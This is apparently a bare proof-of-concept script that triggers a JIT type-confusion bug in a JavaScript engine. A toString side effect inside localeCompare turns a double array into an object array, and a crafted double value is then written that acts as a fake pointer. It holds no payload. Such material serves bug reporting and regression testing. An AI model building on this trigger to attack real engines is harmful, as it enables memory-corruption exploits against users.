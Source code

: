 
function opt(arr, s) {
    arr[0] = 1.1;

    if (s !== null) {
        let tmp = 'a'.localeCompare(s);
    }

    arr[0] = 2.3023e-320;
}

function main() {
    let arr = [1.1];

    for (let i = 0; i < 100; i++) {
        'a'.localeCompare('x', []);  

        opt(arr, null);  

        try {
            opt(arr, {toString: () => {
                throw 1;  
            }});
        } catch (e) {

        }
    }

    opt(arr, {toString: () => {
        
        arr[0] = {};
    }});

    print(arr);
}

main();

